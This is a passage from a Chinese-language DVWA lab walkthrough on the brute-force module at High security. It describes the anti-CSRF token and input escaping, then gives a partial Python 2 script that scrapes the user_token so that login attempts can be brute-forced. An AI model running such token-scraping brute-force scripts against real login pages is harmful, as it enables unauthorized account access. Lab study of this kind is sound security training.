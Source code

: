 ```php

	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```
High级别的代码加入了 Token,可以抵御 CSRF 攻击,同时也增加了爆破的难度,通过抓包,可以看到,登录验证时提交了四个参数:username、password、Login 以及 user_token.

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值,用户每次登录时都要将 user_token 一起提交.服务器收到请求后,会优先做 token 的检查,再进行 sql 查询.
![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa10.png)

同时,High 级别的代码中,使用了 stripslashes(去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个)、 mysql_real_escape_string 对参数 username、password 进行过滤、转义,进一步抵御 sql 注入.

**使用 python 脚本爆破**

`适用于老版本 dvwa 环境`
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token
```